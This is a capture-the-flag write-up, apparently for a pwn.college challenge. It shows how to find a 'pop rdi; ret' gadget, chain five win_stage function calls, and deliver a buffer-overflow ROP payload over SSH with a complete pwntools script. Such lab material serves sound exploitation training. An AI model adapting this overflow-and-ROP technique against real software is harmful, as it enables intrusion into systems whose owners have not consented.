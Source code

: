 In this challenge we have to use ROP gadgets to set up arguments and call functions in order to retrieve the flag. 

In a x64 program, first 6 arguments are passed into the rdi, rsi, rdx, rcx, r8, r9 registers and the rest is pushed onto the stack. 

The functions which we have to call expects only 1 arguments so we have to find rop gadgets that puts a value into the rdi register. 

To find these gadgets we can use several cli tools or we can use directly use pwntools within python

Using `ROPgadget`

	❯ ROPgadget --binary ./temp --only "pop|ret" | grep "pop rdi"
	0x0000000000402373 : pop rdi ; ret


Using `pwntools`

```python
elf = ELF('/home/darkstar/Downloads/temp')
rop = ROP(elf)

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])

if pop_rdi:
    print(f"Found 'pop rdi; ret' gadget at: {hex(pop_rdi.address)}")
else:
    print("Could not find 'pop rdi; ret' gadget.")

```

Next we have to craft our payload 

The would go something like this 

Rop gadget in binary
argument
address of the function to be called 

```python 
rop.raw(pop_rdi)  # Set up the first argument
rop.raw(arg1)     # Argument for func1
rop.raw(win_stage_1)  # Call func1

rop.raw(pop_rdi)  # Set up the second argument
rop.raw(arg2)     # Argument for func2
rop.raw(win_stage_2)  # Call func2

rop.raw(pop_rdi)  # Set up the third argument
rop.raw(arg3)     # Argument for func3
rop.raw(win_stage_3)  # Call func3

rop.raw(pop_rdi)  # Set up the fourth argument
rop.raw(arg4)     # Argument for func4
rop.raw(win_stage_4)  # Call func4

rop.raw(pop_rdi)  # Set up the fifth argument
rop.raw(arg5)     # Argument for func5
rop.raw(win_stage_5)  # Call func5

print("ROP Chain:")
print(rop.dump())

```

The rop chain 

	ROP Chain:
	0x0000:         0x402373 pop rdi; ret
	0x0008:              0x1
	0x0010:         0x402132 win_stage_1
	0x0018:         0x402373 pop rdi; ret
	0x0020:              0x2
	0x0028:         0x401f6c win_stage_2
	0x0030:         0x402373 pop rdi; ret
	0x0038:              0x3
	0x0040:         0x401da7 win_stage_3
	0x0048:         0x402373 pop rdi; ret
	0x0050:              0x4
	0x0058:         0x40204c win_stage_4
	0x0060:         0x402373 pop rdi; ret
	0x0068:              0x5
	0x0070:         0x401e89 win_stage_5

Now we just have to send this as an input

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

FILE = "/challenge/babyrop_level3.1"
HOST = 'pwn.college'
username = 'hacker'
password = '''password'''

port = 22

elf = ELF('/home/darkstar/Downloads/temp')
rop = ROP(elf)

win_stage_3 = 0x401da7
win_stage_5 = 0x401e89
win_stage_2 = 0x401f6c
win_stage_4 = 0x40204c 
win_stage_1 = 0x402132

arg1 = 0x1
arg2 = 0x2
arg3 = 0x3
arg4 = 0x4
arg5 = 0x5

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])

if pop_rdi:
    print(f"Found 'pop rdi; ret' gadget at: {hex(pop_rdi.address)}")
else:
    print("Could not find 'pop rdi; ret' gadget.")


rop.raw(pop_rdi)  # Set up the first argument
rop.raw(arg1)     # Argument for func1
rop.raw(win_stage_1)  # Call func1

rop.raw(pop_rdi)  # Set up the second argument
rop.raw(arg2)     # Argument for func2
rop.raw(win_stage_2)  # Call func2

rop.raw(pop_rdi)  # Set up the third argument
rop.raw(arg3)     # Argument for func3
rop.raw(win_stage_3)  # Call func3

rop.raw(pop_rdi)  # Set up the fourth argument
rop.raw(arg4)     # Argument for func4
rop.raw(win_stage_4)  # Call func4

rop.raw(pop_rdi)  # Set up the fifth argument
rop.raw(arg5)     # Argument for func5
rop.raw(win_stage_5)  # Call func5

print("ROP Chain:")
print(rop.dump())

offset = 72
payload = b'A' * offset
payload += rop.chain()

hex_payload = ''.join(f'\\x{byte:02x}' for byte in payload)
print("Payload in hexadecimal:")
print(hex_payload)

#p = process('/home/darkstar/Downloads/temp')
#
#print("Attaching gdb to the process...")
#gdb.attach(p, """
#    break *challenge+487  # Set a breakpoint at main (or any other location)
#    continue     # Continue execution
#""")
#print("sending payload")

#p.sendline(payload)

#p.interactive()

conn = ssh(user=username, host=HOST, password=password, port=port)

p = conn.process(FILE)

p.recvuntil(b"overwrite the return address).\n")

p.sendline(payload)

p.interactive()

```
